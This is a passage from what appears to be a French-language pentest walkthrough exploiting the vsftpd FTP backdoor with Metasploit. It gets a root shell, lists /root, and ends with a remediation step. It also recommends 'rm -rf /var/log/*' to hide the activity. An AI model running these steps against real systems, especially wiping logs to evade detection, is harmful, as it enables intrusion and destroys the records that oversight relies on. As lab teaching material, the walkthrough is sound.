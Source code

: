 ```bash
set RHOSTS <IP machine Metasploit>
set RPORT 21
```

```bash
run
```
<p align="center">
    <img src="exploit.png" alt="exploit" style="width: 800px;" />
</p>

### Vérifications post-exploit

Pour vérifier si cela a réussi (whoami doit renvoyer root) : 

```bash
whoami
```

Lister les fichiers sensibles : 

```bash
ls /root
```

<p align="center">
    <img src="post-exploit.png" alt="post-exploit" style="width: 800px;" />
</p>

Eviter que les activités de pentest soient détectées : 

```bash
rm -rf /var/log/*
```

### Mesures correctives

**Mettre à jour vsftpd** : Mettre à jour vers une version plus récente qui corrige cette vulnérabilité.
